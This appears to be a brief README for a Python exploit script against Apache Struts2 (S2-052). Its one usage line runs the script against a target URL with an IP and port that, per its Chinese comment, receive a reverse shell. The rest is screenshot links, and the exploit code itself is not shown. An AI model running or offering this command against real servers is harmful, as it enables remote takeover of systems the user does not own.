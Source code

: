 # Apache-Struts2

Usage : python s2-052-exp.py http://127.0.0.1/orders/ ip port #反弹目标主机IP 端口
<img width="940" alt="WechatIMG8" src="https://user-images.githubusercontent.com/19663680/183552139-2f18e2c0-5e2e-4fde-addc-caebf95c036e.png">
<img width="627" alt="WechatIMG9" src="https://user-images.githubusercontent.com/19663680/183552207-f48de5e1-f7f1-4146-bf5c-e535fb17cf6b.png">
